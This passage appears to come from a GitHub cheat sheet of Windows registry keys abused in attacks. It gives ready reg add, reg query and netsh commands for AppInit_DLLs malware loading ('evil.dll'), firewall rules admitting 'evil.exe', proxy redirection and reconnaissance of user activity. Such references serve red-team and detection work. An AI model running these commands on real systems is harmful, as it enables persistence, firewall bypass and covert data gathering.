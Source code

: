 ### Memory Management Manipulation
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management`  
**Attacks:** System Performance Degradation  
**Codes:** `reg add HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management /v ClearPageFileAtShutdown /t REG_DWORD /d 1`

### Windows Folder Path Manipulation
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows`  
**Attacks:** System Behavior Alteration, Malware Execution  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows /v AppInit_DLLs /t REG_SZ /d "evil.dll"`

### User-Specific Policies Manipulation
**Registry Path:** `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`  
**Attacks:** User Experience Manipulation, Restricting Access  
**Codes:** `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoControlPanel /t REG_DWORD /d 1`

### Network Configuration Access
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`  
**Attacks:** Gathering Network Configuration  
**Codes:** `reg query HKLM\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`

### Recently Executed Programs Access
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services\bam\UserSettings`  
**Attacks:** Gathering User Activity  
**Codes:** `reg query HKLM\SYSTEM\CurrentControlSet\Services\bam\UserSettings`

### Recent Documents Access
**Registry Path:** `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs`  
**Attacks:** Gathering Recently Accessed Documents  
**Codes:** `reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs`

### Internet Connections Settings Manipulation
**Registry Path:** `HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Connections`  
**Attacks:** Man-in-the-Middle, Proxy Redirection  
**Codes:** `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Connections /v DefaultConnectionSettings /t REG_BINARY /d [modified_hex_values]`

### Computer Name Access
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Control\ComputerName`  
**Attacks:** Gathering System Information  
**Codes:** `reg query HKLM\SYSTEM\CurrentControlSet\Control\ComputerName`

### Firewall Settings Manipulation
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy`  
**Attacks:** Firewall Bypass, Unauthorized Access  
**Codes:** `netsh advfirewall firewall add rule name="EvilRule" dir=in action=allow program="evil.exe"`
